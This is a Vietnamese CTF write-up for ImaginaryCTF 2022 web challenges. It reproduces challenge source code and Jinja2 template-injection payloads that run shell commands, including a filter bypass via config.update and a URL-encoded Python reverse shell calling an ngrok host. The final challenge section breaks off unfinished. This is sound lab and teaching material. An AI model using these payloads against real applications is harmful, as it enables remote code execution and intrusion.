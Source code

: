 ```yaml
---
title: "Imaginary CTF 2022"
author: "mtiennnnn"
tags: write-up web
---
```

{% comment %}
# SSTI Golf

Đề bài cho thẳng source có lỗi SSTI như sau

```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 48:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

Check param `query` tại `/ssti` và giới hạn độ dài là 48. Bài này thì easy rồi nên mình cho thẳng payload mình hay dùng.

```python
{{lipsum.__globals__.os.popen('nl *').read()}}
```

![image](https://user-images.githubusercontent.com/75429369/179644681-16ad9d92-6c4c-4e2f-896a-46d4e4f950a8.png)

# minigolf

Một bài SSTI khác nhưng lần này khó hơn ở chỗ tác giả đã filter thêm một số ký tự `{{` `[` `_`

```python
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

Ban đầu mình cũng cố gắng chắp vá payload bằng những cách thường dùng như dùng `attr|` `dict` nhưng độ dài là rất ít (<= 69).

Sau một hồi thì mình có tham khảo được trang [này](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)

Đại khái ý tưởng ở đây sẽ là chèn một chuỗi với độ dài tuỳ thích vào một biến nào đó trong file `config`, sau đó ta sẽ `popen` tới nó để sử dụng. Mình test thử nhé. Đầu tiên ta sẽ lưu chuỗi như ý muốn vào `config.a`

Ban đầu mình thử với payload sau nhưng không được

```
?txt={%set t=config.update(a=request.args('a')))%}&a=this is a test mtiennnnn
```

Mình không hiểu tại sao payload này lại không work :) (có ai biết chỉ mình với nha), sau đó mình cho hẳn cái `request.args` thành một biến khác thì lại work.

```
?txt={%set o=request.args%}{%set b=config.update(a=o.t)%}&t=this is a test mtiennnnn
```

Đọc thử `config.a` thì đã thấy chuỗi mình nhập

![image](https://user-images.githubusercontent.com/75429369/179645383-e56b8dfc-e37a-4b05-a2f1-d91fdebfe75f.png)

Vậy là đạt được mục đích rồi, giờ chỉ cần set up reverse shell nữa là xong

```
?txt={%set%20o=request.args%}{%set%20b=config.update(a=o.t)%}&t=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28"0.tcp.ap.ngrok.io"%2C14474%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B"%2Fbin%2Fsh"%2C"-i"%5D%29%3B%27
```

Check lại `config.a` lần nữa cho chắc

![image](https://user-images.githubusercontent.com/75429369/179646144-de31d54a-441f-4893-baec-304beed007ee.png)

Oke popen nó là ta có thể rce được rồi

```
?txt={%set o=request.args%}{%set b=(lipsum|attr(o.t)).os.popen(config.a)%}&t=__globals__
```

![image](https://user-images.githubusercontent.com/75429369/179646491-6aa503cd-b5ea-49ab-b92c-572f3a32baab.png)

_Note: bài này mình cứ ghi thiếu ngoặc với thiếu kí tự gì đấy nên cứ 500 miết =))_

# 1337

```javascript
import mojo from "@mojojs/core";
import Path from "@mojojs/path";

const toLeet = {
  A: 4,
  E: 3,
  G: 6,
  I: 1,
  S: 5,
  T: 7,
  O: 0,
};

const fromLeet = Object.fromEntries(
  Object.entries(toLeet).map(([k, v]) => [v, k])
);

const layout = `<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>1337</title>
    <link rel="stylesheet" href="static/style.css">
</head>
<body>
    <main>
        <%== ctx.content.main %>
    </main>
    <canvas width="500" height="200" id="canv" />
    <script src="static/matrix.js"></script>
</body>
</html>`;

const indexTemplate = `
<h1>C0NV3R7 70/FR0M L337</h1>
<form id="leetform" action="/">
    <input type="text" id="text" name="text" placeholder="Your text here">
    <div class="switch-field">
        <input type="radio" id="dir-to" name="dir" value="to" checked="checked">
        <label for="dir-to">TO</label>
        <input type="radio" id="dir-from" name="dir" value="from">
        <label for="dir-from">FROM</label>
    </div>
    <input type="submit" value="SUBMIT">
</form>
<div id="links">
  <a href="/source">/source</a>
  <a href="/docker">/docker</a>
</div>
`;

const app = mojo();

const leetify = (text, dir) => {
  const charBlocked = ["'", "`", '"'];
  const charMap = dir === "from" ? fromLeet : toLeet;

  const processed = Array.from(text)
    .map((c) => {
      if (c.toUpperCase() in charMap) {
        return charMap[c.toUpperCase()];
      }

      if (charBlocked.includes(c)) {
        return "";
      }

      return c;
    })
    .join("");

  return `<h1>${processed}</h1><a href="/">â†BACK</a>`;
};

app.get("/", async (ctx) => {
  const params = await ctx.params();
  if (params.has("text")) {
    return ctx.render({
      inline: leetify(params.get("text"), params.get("dir")),
      inlineLayout: layout,
    });
  }
  ctx.render({ inline: indexTemplate, inlineLayout: layout });
});

app.get("/source", async (ctx) => {
  const readable = new Path("index.js").createReadStream();
  ctx.res.set("Content-Type", "text/plain");
  await ctx.res.send(readable);
});

app.get("/docker", async (ctx) => {
  const readable = new Path("Dockerfile").createReadStream();
  ctx.res.set("Content-Type", "text/plain");
  await ctx.res.send(readable);
});

app.start();
```

Tiếp tục là một bài SSTI (được dịp ôn SSTI gớm), ở bài này nó sẽ convert một số ký tự từ chữ sang số và ngược lại. (btw, payload test ssti `<%== 7*7%>`).

Ngoài convert những kí tự như trên thì ở hàm `leetify`, tác giả còn chặn những kí tự như `'` `"` ```
Tiếp cận bài này ban đầu của mình là mình đi theo hướng URLencode nhưng không hợp lí vì lấy ví dụ `'` là %27 thì số 7 đã bị block.
 an com ti viet tiepa











